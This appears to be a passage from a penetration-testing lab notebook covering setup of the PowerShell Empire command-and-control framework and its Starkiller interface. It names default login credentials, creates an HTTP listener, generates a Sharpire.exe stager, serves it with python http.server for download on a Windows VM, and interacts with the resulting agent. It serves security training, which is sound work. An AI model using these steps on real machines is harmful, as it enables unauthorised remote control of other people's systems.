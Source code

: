 ![powershell-empire server](.gitbook/assets/image-20230424001137277.png)

- In another terminal tab

```bash
sudo powershell-empire client
```

![powershell-empire client](.gitbook/assets/image-20230424001245066.png)

```bash
listeners
agents
```

- Open Starkiller
  - `http://localhost:1337/index.html#/`
  - Credentials: `empireadmin`:`password123`

![Starkiller](.gitbook/assets/image-20230424001649620.png)

![Plugins](.gitbook/assets/image-20230424001857087.png)

- Run the `csharpserver`

![Modules](.gitbook/assets/image-20230424002047616.png)

- Create a `http` **listener** to receive the reverse connection from the target system

![Listener](.gitbook/assets/image-20230424002309388.png)

- Generate a **Stager** with `windows_csharp_exe` type

![Stager](.gitbook/assets/image-20230424002646402.png)

- Actions - Download the `Sharpire.exe` stager

```bash
# Open a new terminal window
cd Downloads
python3 -m http.server 80

# On the Windows VM download the Sharpire.exe from http://192.168.31.128/
# Run it
```

- Back on the Starkiller **Agents** page, check for the active agent

![Agents](.gitbook/assets/image-20230424003448219.png)

![File Browser](.gitbook/assets/image-20230424003849568.png)

- Back in the Empire terminal session

```bash
agents
interact <ID>
history
```
